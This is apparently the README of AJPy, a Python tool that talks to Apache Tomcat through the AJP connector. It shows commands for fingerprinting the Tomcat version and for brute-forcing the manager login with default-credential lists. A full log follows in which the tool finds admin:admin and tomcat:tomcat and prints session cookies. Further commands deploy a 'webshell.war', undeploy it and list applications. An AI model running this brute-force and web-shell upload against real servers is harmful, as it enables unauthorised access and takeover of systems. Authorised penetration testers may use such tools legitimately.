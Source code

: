 # Intro

AJPy aims to craft AJP requests in order to communicate with AJP connectors.

Reference documentation: https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html

# Tools

At the moment, only one tool is provided for Tomcat with the following modules:

* version fingerprint
```
$ python tomcat.py version 172.17.0.2
Apache Tomcat/8.0.35
```

* authentication bruteforce
```
$ python tomcat.py -v  bf -U tomcat_mgr_default_users.txt -P tomcat_mgr_default_pass.txt /manager/html 172.17.0.2
[2016-06-10 17:24:55.965] INFO     Attacking a tomcat at ajp13://172.17.0.2:8009/manager/html
[2016-06-10 17:24:56.017] DEBUG    testing admin:admin
[2016-06-10 17:24:56.069] INFO     Found valid credz: admin:admin
[2016-06-10 17:24:56.069] INFO     Here is your cookie: JSESSIONID=1267BE97BFB5BFAEAFAAD76EE648FE06; Path=/manager/; HttpOnly
[2016-06-10 17:24:56.069] DEBUG    testing admin:manager
[2016-06-10 17:24:56.152] DEBUG    testing admin:role1
[2016-06-10 17:24:56.154] DEBUG    testing admin:root
[2016-06-10 17:24:56.155] DEBUG    testing admin:tomcat
[2016-06-10 17:24:56.157] DEBUG    testing manager:admin
[2016-06-10 17:24:56.158] DEBUG    testing manager:manager
[2016-06-10 17:24:56.159] DEBUG    testing manager:role1
[2016-06-10 17:24:56.160] DEBUG    testing manager:root
[2016-06-10 17:24:56.161] DEBUG    testing manager:tomcat
[2016-06-10 17:24:56.164] DEBUG    testing role1:admin
[2016-06-10 17:24:56.164] DEBUG    testing role1:manager
[2016-06-10 17:24:56.165] DEBUG    testing role1:role1
[2016-06-10 17:24:56.166] DEBUG    testing role1:root
[2016-06-10 17:24:56.167] DEBUG    testing role1:tomcat
[2016-06-10 17:24:56.169] DEBUG    testing root:admin
[2016-06-10 17:24:56.170] DEBUG    testing root:manager
[2016-06-10 17:24:56.171] DEBUG    testing root:role1
[2016-06-10 17:24:56.172] DEBUG    testing root:root
[2016-06-10 17:24:56.173] DEBUG    testing root:tomcat
[2016-06-10 17:24:56.175] DEBUG    testing tomcat:admin
[2016-06-10 17:24:56.175] DEBUG    testing tomcat:manager
[2016-06-10 17:24:56.176] DEBUG    testing tomcat:role1
[2016-06-10 17:24:56.177] DEBUG    testing tomcat:root
[2016-06-10 17:24:56.178] DEBUG    testing tomcat:tomcat
[2016-06-10 17:24:56.184] INFO     Found valid credz: tomcat:tomcat
[2016-06-10 17:24:56.184] INFO     Here is your cookie: JSESSIONID=9944126F31E428B8847AFEBF2307BB09; Path=/manager/; HttpOnly
[2016-06-10 17:24:56.184] DEBUG    testing tomcat:sstic2016
[2016-06-10 17:24:56.186] DEBUG    testing both:admin
[2016-06-10 17:24:56.187] DEBUG    testing both:manager
[2016-06-10 17:24:56.188] DEBUG    testing both:role1
[2016-06-10 17:24:56.189] DEBUG    testing both:root
[2016-06-10 17:24:56.190] DEBUG    testing both:tomcat
[2016-06-10 17:24:56.191] DEBUG    Closing socket...
```

* WAR upload
```
$ python tomcat.py upload -u tomcat -p tomcat webshell.war 172.17.0.2
```

* WAR undeploy
```
$ python tomcat.py undeploy -u tomcat -p tomcat /webshell 172.17.0.2
```

* Application listing
```
$ python tomcat.py list -u tomcat -p tomcat 172.17.0.2
```


# Thanks
* @MrTchuss for the Tomcat WAR upload fix
* @kalidor for the Tomcat WAR undeploy and application listing
